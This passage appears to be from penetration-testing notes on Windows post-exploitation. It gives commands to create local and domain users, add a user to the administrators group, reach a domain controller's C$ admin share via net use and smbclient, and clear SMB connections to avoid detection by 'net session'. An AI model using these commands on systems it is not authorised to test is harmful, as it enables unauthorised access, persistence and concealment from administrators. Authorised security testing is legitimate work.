More information refer `Passing the Hash with Remote Desktop <https://www.kali.org/penetration-testing/passing-hash-remote-desktop/>`_ 


.. Todo ::

   ----dsquery !! SubMSI ? MSUtil to use RCE?
   ----Any commands if net, or powershell is blocked? or PV/ BH is caught? 


Useful Stuff
============

Add/ remove/ a local user
-------------------------

:: 

 net user /add [username] [password]

::

 net user John xxxxxxxxx /ADD

 C:\>net user /add John *
 Type a password for the user: 
 Retype the password to confirm:
 The command completed successfully.

Add a domain user
-----------------

::

 net user username password /ADD /DOMAIN

Add / remove a local user to administrator group
------------------------------------------------

::

 net localgroup administrators [username] /add


Accessing Remote machines
--------------------------

Windows
^^^^^^^

Setup an SMB connection with a host

::
 
  PS C:\> net use \\DC.xxxxxxxx.net
  The command completed successfully.

Check for access to admin shares ("C$", or "ADMIN$"), if we are admin:

::

  PS C:\> dir \\DC.xxxxxxxxxx.net\C$\Users

  Directory: \\DC.xxxxxxxx.net\C$\Users 
  
  Mode                LastWriteTime     Length Name
  ----                -------------     ------ ----
  d----        20.11.2016     09:35            axx.xxxxxx
  d----        21.11.2010     06:47            Administrator
  d-r--        14.07.2009     06:57            Public  


If we are not admin, we might get a access denied:

::

  PS C:\> dir \\DC.xxxxxxxxxx.net\C$\Users
  Access is denied.
  
Check your net connections: 

::
 
  PS C:> net use
  New connections will be remembered.  
  
  Status       Local     Remote                    Network 
  
  -------------------------------------------------------------------------------
  OK                     \\DC.xxxxxxxx.net\IPC$   Microsoft Windows Network
  The command completed successfully.
 
However, if administrator on DC.xxxxx.net runs a net session command, the connections would be detected. For that issue 

::
 
  net use /delete *
 
On windows, after running this, if we execute
 
::
 
  //IPAddress/C$

we should be able to view the directory via windows explorer.

Linux
^^^^^

smbclient: We can use smbclient to access the remote computer file-system.

:: 
   
   smbclient -L hostname -U domainname\\username

   -L|--list This option allows you to look at what services are available on a server. You use it as smbclient -L host and a list should appear. The -I option may be useful if your NetBIOS names don't match your TCP/IP DNS host names or if you are trying to reach a host on another network.


The below will drop you in to command line

::

  smbclient \\\\hostname\\C$ -U domainname\\username
  (After entering the password)

  smb: \> ls
  smb: \> ls
  $Recycle.Bin                      DHS        0  Wed Nov 30 20:00:40 2016
  .rnd                                A     1024  Mon Jul 27 13:51:24 2015
  Boot                              DHS        0  Mon Jul 27 14:16:53 2015
  bootmgr                          AHSR   333257  Sat Apr 11 21:42:12 2009
  BOOTSECT.BAK                      ASR     8192  Wed Jul 21 09:01:52 2010
  Certificate                         D        0  Sun Jun 23 17:20:48 2013
  Config.Msi                        DHS        0  Thu Feb 16 01:49:59 2017
  cpqsprt.trace                       A     8004  Wed Jul 21 08:59:57 2010
  cpqsystem                           D        0  Wed Jul 21 08:32:58 2010
  csv.err                             A       90  Sun May 20 15:35:38 2012
  csv.log                             A      278  Sun May 20 15:35:38 2012
  Documents and Settings            DHS        0  Sat Jan 19 19:53:20 2008
  Program Files                      DR        0  Thu Sep  8 16:24:36 2016
  Program Files (x86)                DR        0  Tue Nov 22 21:28:01 2016
  ProgramData                        DH        0  Thu Feb  9 16:51:52 2017
  Rename.bat                          A     1406  Wed Oct 26 15:11:19 2011
  System Volume Information         DHS        0  Thu Feb 16 01:49:56 2017
  temp                                D        0  Fri Aug  9 17:16:55 2013
  Users                              DR        0  Wed Nov 30 20:00:08 2016
  Windows                             D        0  Wed Feb 15 23:18:12 2017
